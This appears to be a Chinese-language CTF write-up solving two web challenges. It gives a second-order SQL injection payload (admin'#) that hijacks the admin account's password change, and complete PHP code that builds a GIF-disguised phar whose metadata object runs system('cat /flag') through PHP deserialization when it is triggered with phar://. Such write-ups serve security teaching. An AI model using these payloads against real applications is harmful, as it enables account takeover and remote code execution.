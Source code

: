 # Web

## 二次注入

简单的SQL注入，其实跟二次注入没啥关系（出题人给我发的文件名是twice injection被我误解了

### 解题方法

注册用户时使用注释符覆盖掉后面的查询语句，即

```sql

admin'#

```

然后修改密码的时候则会去修改admin的密码（因为后面的内容被注释掉了），就能轻松地拿到Flag

## 反序列化？

相信大家看到问号应该知道这道题主要考的不是反序列化了吧（不会真有人在纠结反序列化吧）

### 解题方法

先观察`vulnerable.php`啊，主页上都提示了，发现了一个很显然能导致RCE的类，下面有一个`file_exists`函数，不会有人真觉得这边是检查上传文件是否成功吧。`file_exists`函数再检查phar包的时候会将其解析，利用这点进行代码执行。

使用如下代码生成一个phar包（带上gif文件头，因为上传那边会检查），然后修改后缀名上传即可，然后使用phar协议`phar://upload/xxx.gif`即可拿到flag。
```php

<?php

class Flag
{
    private $code;

    function __construct($my_code)
    {
        $this->code = $my_code;
    }

    function __destruct()
    {
        eval($this->code);
    }
}



$phar = new Phar('phar1.phar');
$phar->stopBuffering();
$phar->setStub('GIF89a' . '<?php __HALT_COMPILER();?>');
$phar->addFromString('test.txt', 'test');
$object = new Flag("system('cat /flag');");
$phar->setMetadata($object);
$phar->stopBuffering();

```
